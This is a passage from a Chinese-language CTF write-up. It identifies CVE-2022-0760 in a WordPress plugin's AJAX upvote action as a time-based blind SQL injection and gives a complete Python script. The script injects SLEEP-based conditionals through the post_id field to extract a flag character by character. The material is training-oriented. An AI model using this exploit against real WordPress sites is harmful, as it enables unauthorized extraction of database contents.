 发现 CVE-2022-0760

是一个时间盲注的题

直接上脚本

```
import requests
import time
# 这里我们直接猜测flag和上一个sql注入的flag位置相同
# flag
# ctftraining.flag
url = "http://node2.anna.nssctf.cn:28433/wp-admin/admin-ajax.php"

dict="NSSCTF{_-abcdefghijklmnopqrstuvwxyz0123456789}~"
def get_values():
    count = 8
    flag = ''
    while True:
        for i in dict:
            data = {
                    "action": "qcopd_upvote_action",
                    "post_id": f"(SELECT 3 FROM (SELECT if(ascii(substr((select group_concat(flag) from ctftraining.flag),{count},1))={ord(i)}, sleep(2),0))enz)"
                    }
            print(i)
            start_time = time.time()
            resp = requests.post(url=url, data=data)
            end_time = time.time()
            if end_time-start_time>=1.5:
                flag += i
                print(flag)
                count += 1
                break
            elif i == "~":
                return False
            time.sleep(0.05)
get_values()
```

# week3

## ssssti

![](./images/image-84.png)
